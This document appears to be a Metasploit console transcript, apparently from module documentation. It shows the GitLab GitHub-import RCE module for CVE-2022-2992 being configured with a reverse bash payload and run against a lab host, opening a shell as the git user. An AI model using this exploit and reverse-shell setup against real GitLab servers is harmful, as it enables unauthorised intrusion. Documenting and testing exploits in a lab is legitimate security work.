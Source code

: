 ```
   TARGETURI     /                        yes       The base path to the gitlab application
   URIHOST       ext.msflab.local         no        Host to use in GitHub import URL
   URIPATH                                no        The URI to use for this exploit (default is random)
   USERNAME      smcintyre                yes       The username to authenticate as
   VHOST                                  no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > run

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected GitLab version 15.3.1 which is vulnerable.
[*] Using URL: http://ext.msflab.local:8088/
[*] Command shell session 1 opened (192.168.250.134:4444 -> 192.168.250.134:56794) at 2023-02-13 13:41:05 -0500
id
[*] Server stopped.

uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] 192.168.159.128 - Command shell session 1 closed.
msf exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
```
